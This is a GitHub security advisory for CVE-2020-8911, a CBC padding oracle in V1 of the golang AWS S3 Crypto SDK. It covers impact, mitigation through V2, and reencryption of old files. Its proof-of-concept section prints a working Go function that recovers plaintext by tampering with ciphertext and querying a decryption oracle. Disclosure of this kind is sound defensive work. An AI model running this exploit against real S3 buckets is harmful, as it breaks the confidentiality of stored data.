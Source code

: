 ```yaml
---
title: ' AWS: CBC Padding oracle in the AWS S3 Crypto SDK for golang'
published: '2020-08-10T20:22:37Z'
severity: Moderate
ghsa_id: GHSA-f5pg-7wfw-84q9
cve_id: CVE-2020-8911
weaknesses: []
products:
- ecosystem: ''
  package_name: AWS S3 crypto SDK (aws-sdk-go/service/s3/s3crypto)
  affected_versions: V1
  patched_versions: V2
cvss: null
credits:
- github_user_id: sophieschmieg
  name: Sophie Schmieg
  avatar: https://avatars.githubusercontent.com/u/53278002?s=40&v=4
---
```


### Summary

The golang AWS S3 Crypto SDK is impacted by an issue that can result in loss of confidentiality and message forgery. The attack requires write access to the bucket in question, and that the attacker has access to an endpoint that reveals decryption failures (without revealing the plaintext) and that when encrypting the CBC option was chosen as content cipher.

### Risk/Severity

The vulnerability pose insider risks/privilege escalation risks, circumventing KMS controls for stored data.

### Impact

This advisory describes the plaintext revealing vulnerabilities in the golang AWS S3 Crypto SDK, with a similar issue in the non "strict" versions of C++ and Java S3 Crypto SDKs being present as well.

V1 of the S3 crypto SDK, allows users to encrypt files with AES-CBC, without computing a MAC on the data. Note that there is an alternative option of using AES-GCM, which is used in the examples of the documentation and not affected by this vulnerability, but by CVE-2020-8912.

This exposes a padding oracle vulnerability: If the attacker has write access to the S3 bucket and can observe whether or not an endpoint with access to the key can decrypt a file (without observing the file contents that the endpoint learns in the process), they can reconstruct the plaintext with (on average) `128*length(plaintext)` queries to the endpoint, by exploiting CBC's ability to manipulate the bytes of the next block and PKCS5 padding errors.

This issue is fixed in V2 of the API, by disabling encryption with CBC mode for new files. Old files, if they have been encrypted with CBC mode, remain vulnerable until they are reencrypted with AES-GCM.

### Mitigation

Using the version 2 of the S3 crypto SDK will not produce vulnerable files anymore. Old files remain vulnerable to this problem if they were originally encrypted with CBC mode.

### Proof of concept

A [Proof of concept](https://github.com/sophieschmieg/exploits/tree/master/aws_s3_crypto_poc) is available in a separate github repository.

This particular issue is described in [padding_oracle_exploit.go](https://github.com/sophieschmieg/exploits/blob/master/aws_s3_crypto_poc/exploit/padding_oracle_exploit.go):

```golang
func PaddingOracleExploit(bucket string, key string, input *OnlineAttackInput) (string, error) {
	data, header, err := input.S3Mock.GetObjectDirect(bucket, key)
	if alg := header.Get("X-Amz-Meta-X-Amz-Cek-Alg"); alg != "AES/CBC/PKCS5Padding" {
		return "", fmt.Errorf("Algorithm is %q, not CBC!", alg)
	}
	length, err := strconv.Atoi(header.Get("X-Amz-Meta-X-Amz-Unencrypted-Content-Length"))
	padding := byte(len(data) - length)
	plaintext := make([]byte, length)
	for i := length - 1; i >= 0; i-- {
		newLength := 16 * (i/16 + 1)
		dataCopy := make([]byte, newLength)
		headerCopy := header.Clone()
		copy(dataCopy, data)
		// Set Padding
		newPadding := byte(newLength - i)
		for j := i + 1; j < newLength; j++ {
			var oldValue byte
			if j >= length {
				oldValue = padding
			} else {
				oldValue = plaintext[j]
			}
			dataCopy, headerCopy, err = xorData(oldValue^newPadding, j, dataCopy, headerCopy)
			if err != nil {
				return "", err
			}
		}
		// Guess
		for c := 0; c < 256; c++ {
			dataCopy, headerCopy, err := xorData(byte(c)^newPadding, i, dataCopy, headerCopy)
			input.S3Mock.PutObjectDirect(bucket, key+"guess", dataCopy, headerCopy)
			if input.Oracle(bucket, key+"guess") {
				plaintext[i] = byte(c)
				break
			}
			dataCopy, headerCopy, err = xorData(byte(c)^newPadding, i, dataCopy, headerCopy)
		}
	}
	return string(plaintext), nil
}
```